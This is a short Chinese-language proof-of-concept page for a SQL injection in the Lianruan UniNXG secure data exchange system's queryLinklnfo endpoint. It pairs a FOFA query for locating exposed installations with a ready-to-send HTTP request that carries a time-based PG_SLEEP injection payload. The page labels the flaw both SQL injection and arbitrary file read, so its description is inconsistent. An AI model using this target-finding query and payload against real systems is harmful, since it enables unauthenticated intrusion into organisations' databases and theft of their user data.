 # 联软安渡系统接口queryLinklnfo存在SQL注入漏洞

联软安渡UniNXG安全数据交换系统`/UniExServices/link/queryLinklnfo`存在任意文件读取漏洞，未经身份验证的攻击者可利用此漏洞获取数据库用户数据。

## fofa

```yaml
body="深圳市联软科技股份有限公司"
```

## poc

```yaml
GET /UniExServices/link/queryLinklnfo?address=%27%3BSELECT%20PG_SLEEP%285%29-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
```

